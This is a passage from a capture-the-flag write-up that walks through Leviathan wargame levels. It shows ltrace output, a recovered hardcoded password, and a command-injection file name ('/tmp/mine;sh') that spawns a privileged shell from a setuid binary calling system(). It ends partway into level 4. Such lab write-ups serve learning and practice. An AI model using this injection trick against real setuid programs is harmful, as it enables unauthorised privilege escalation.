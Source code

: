 So it compares the first 3 characters to the word 'sex'. And sure enough:

    leviathan1@melissa:~$ ./check 
    password: sex
    $ id
    uid=12001(leviathan1) gid=12001(leviathan1) euid=12002(leviathan2) groups=12002(leviathan2),12001(leviathan1)
</div>
    
## Level 3 ##

{::options parse_block_html="true" /}
<div class="writeup">
We are given a single binary that seemingly prints a file. Looking at the attributes, it's privilege escalation:

    leviathan2@melissa:~$ ls -l
    total 8
    -r-sr-x--- 1 leviathan3 leviathan2 7293 2012-06-28 14:54 printfile
    
Using ltrace again, we see:

    leviathan2@melissa:~$ ltrace ./printfile /tmp/mine1
    __libc_start_main(0x80484d4, 2, -10252, 0x80485b0, 0x8048610 <unfinished ...>
    access("/tmp/mine1", 4)                                                  = 0
    snprintf("/bin/cat /tmp/mine1", 511, "/bin/cat %s", "/tmp/mine1")        = 19
    system("/bin/cat /tmp/mine1" <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                   = 0
    +++ exited (status 0) +++
    
So even though it's using snprintf (safe print), it does a call to system with whatever was pass in as an argument. The only caveat is that it checks the file we pass in for permissions (the access call) so it must exist and be owned by us. What about passing in a file whose name is essentially a command? Like '/tmp/mine;sh'

    leviathan2@melissa:~$ ./printfile "/tmp/mine;sh"
    /bin/cat: /tmp/mine: Is a directory
    $ id
    uid=12002(leviathan2) gid=12002(leviathan2) euid=12003(leviathan3) groups=12003(leviathan3),12002(leviathan2)
    
(The line about the directory is a red herring - it was probably put there by another player)

TODO: What about using symlinks??
</div>

## Level 4 ##

{::options parse_block_html="true" /}
<div class="writeup">
That one was a rather large step above the previous level. Using ltrace didn't show any strcmp calls:

    leviathan3@melissa:~$ ltrace ./level3 
    __libc_start_main(0x8048580, 1, -10236, 0x80485b0, 0x8048610 <unfinished ...>
    __printf_chk(1, 0x80486aa, 0x80485bb, 0xf7fd2ff4, 0x80485b0)             = 20
    fgets(Enter the password> spam
    "spam\n", 256, 0xf7fd3440)                                         = 0xffffd62c
    puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
    )                                               = 19
    +++ exited (status 0) +++
    